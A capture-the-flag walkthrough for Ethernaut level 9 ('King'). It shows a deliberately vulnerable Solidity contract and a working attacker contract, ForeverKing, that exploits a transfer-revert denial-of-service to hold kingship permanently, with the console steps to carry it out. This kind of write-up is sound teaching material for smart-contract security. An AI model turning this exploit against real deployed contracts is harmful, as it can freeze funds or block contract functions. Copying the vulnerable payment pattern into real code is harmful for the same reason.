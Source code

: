 # Level 9: King

This is the level 9 of [Ethernaut](https://ethernaut.openzeppelin.com/) game.

## Pre-requisites
- Solidity contract [receive](https://ethereum.stackexchange.com/questions/81994/what-is-the-receive-keyword-in-solidity/81995) function
- [transfer](https://docs.soliditylang.org/en/v0.8.10/types.html#members-of-addresses) method of addresses

## Hack

Given contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract King {

  address payable king;
  uint public prize;
  address payable public owner;

  constructor() public payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
    return king;
  }
}
```

`player` has to prevent the current level from reclaiming the kingship after instance is submitted.

Kingship is switched in `receive` function i.e. when a specific value is sent to `King`. So, we'll have to somehow prevent execution of `receive`.

The key thing to notice is that previous `king` is sent back `msg.value` using `transfer`. But what if this previous `king` was a contract and it didn't implement any `receive` or `fallback`? It won't be able to receive any value. And because of this `transfer` stops execution with an exception (unlike `send`). Gotcha!

Let's make a contract `ForeverKing` that has NO `receive` or `fallback`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract ForeverKing {
    function claimKingship(address payable _to) public payable {
        (bool sent, ) = _to.call.value(msg.value)("");
        require(sent, "Failed to send value!");
    }
}
```

Query the current prize:

```javascript
await contract.prize().then(v => v.toString())

// Output: '1000000000000000'
```

So at least `1000000000000000` wei is required to claim kingship.

Get your instance's address, so that `ForeverKing` can send value to it:

```javascript
contract.address

// Output: <your-instance-address>
```

Call `claimKingship` of `ForeverKing` with param `<your-instance-address>` and set the amount `1000000000000000` wei as value in Remix. That will make `ForeverKing` contract as king.

Submit the instance. Upon submitting the level will try to reclaim kingship through `receive` fallback. However, it will fail.

This is because upon reaching line:
```
king.transfer(msg.value);
```
exception would occur because `king` (i.e. deployed `ForeverKing` contract) has no fallback functions.

Level cleared.

Bonus thing to note here is that in `ForeverKing`'s `claimKingship`, `call` is used specifically. `transfer` or `send` will fail because of limited 2300 gas stipend. `receive` of `King` would require more than 2300 gas to execute successfully.

Of course, there are probably other ways too to prevent a successful `receive` execution.

_Learned something awesome? Consider starring the [github repo](https://github.com/theNvN/ethernaut-openzeppelin-hacks)_ 😄

_and following me on twitter [here](https://twitter.com/the_nvn)_ 🙏

